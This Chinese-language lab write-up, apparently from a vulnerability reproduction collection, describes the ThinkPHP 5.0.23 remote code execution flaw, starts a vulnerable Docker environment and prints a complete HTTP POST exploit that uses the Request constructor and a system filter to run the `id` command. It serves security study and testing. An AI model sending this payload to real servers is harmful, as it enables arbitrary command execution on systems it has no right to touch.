

# ThinkPHP5 5.0.23 远程代码执行漏洞

## 漏洞描述

ThinkPHP 是一款运用极广的 PHP 开发框架。其 5.0.23 以前的版本中，获取 method 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法并构造利用链，从而导致远程代码执行漏洞。

参考链接：

- https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003

## 环境搭建

执行如下命令启动一个默认的 thinkphp 5.0.23 环境：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.php` 即可看到默认的 ThinkPHP 启动页面。

## 漏洞复现

发送数据包：

```
POST /index.php?s=captcha HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

成功执行 `id` 命令：



## 开源 POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE
